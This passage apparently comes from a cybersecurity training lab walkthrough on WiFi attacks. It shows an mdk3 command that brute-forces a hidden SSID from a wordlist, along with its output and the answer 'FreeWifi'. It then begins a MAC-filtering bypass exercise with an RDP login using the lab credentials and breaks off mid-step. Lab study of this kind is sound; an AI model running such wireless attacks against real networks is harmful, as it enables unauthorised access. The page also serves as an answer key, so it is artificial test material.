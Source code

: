 ```
wifi@WiFiIntro:~$ sudo mdk3 wlan0mon p -f /opt/wordlist.txt -t d2:a3:32:1b:29:d5

SSID Wordlist Mode activated!

Waiting for beacon frame from target...
Sniffer thread started

SSID is hidden. SSID Length is: 8.

Got response from D2:A3:32:1B:29:D5, SSID: "{hidden}"
Last try was: (null)
```

Answer: `FreeWifi`

# Bypassing Mac Filtering

## Question 1

### "What is the ESSID of the WiFi network operating on the 5 GHz band?"

Students will establish an RDP connection to the target using the credentials `wifi:wifi`:

Code: shell

```shell
xfreerdp /v:STMIP /u:wifi /p:wifi /dynamic-resolution
```

```
┌─[eu-academy-6]─[10.10.14.62]─[htb-ac-8414@htb-lip2psyng5]─[~]
└──╼ [★]$ xfreerdp /v:10.129.202.88 /u:wifi /p:wifi /dynamic-resolution

[02:47:57:187] [123081:123082] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[02:47:58:488] [123081:123082] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[02:47:58:488] [123081:123082] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[02:47:58:501] [123081:123082] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[02:47:58:502] [123081:123082] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[02:47:58:502] [123081:123082] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel disp
```

Students will open a terminal and will use `airmon-ng` to change to the `Monitor` mode on the `wlan0` network adapter:

Code: shell
